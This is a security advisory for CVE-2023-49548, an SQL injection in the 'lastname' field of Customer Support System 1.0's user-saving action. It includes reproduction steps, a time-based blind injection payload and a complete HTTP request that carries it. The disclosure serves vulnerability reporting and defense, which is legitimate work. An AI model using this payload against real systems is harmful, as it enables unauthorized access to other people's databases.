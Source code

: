 # CVE-2023-49548
# Customer Support System 1.0 - SQL Injection Vulnerability in the "lastname" Parameter During "save_user" Operation

**Description**: A SQL Injection vulnerability exists in version 1 of the Customer Support System. A malicious attacker can issue SQL commands to the MySQL database when creating/editing a user through the vulnerable parameter 'lastname'. 
  
**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49548     
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Click on your user image and select "Manage Account."   
3- Insert the malicious payload into the "lastname" parameter. 
**payload**: '%20and%20(select*from(select(sleep(20)))a)--%20  
### Request:

```
POST /customer_support/ajax.php?action=save_user HTTP/1.1
Host: 192.168.68.182
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 144
Origin: http://192.168.68.182
Connection: close
Referer: http://192.168.68.182/customer_support/index.php?page=department_list
Cookie: PHPSESSID=arlocktakq815fq1lpm5fjml9n

id=1&table=users&firstname=Administrator&middlename=teste&lastname='%20and%20(select*from(select(sleep(5)))a)--%20&username=admin&password=admin
```
Discoverer(s)/Credits:  
Geraldo Alcântara
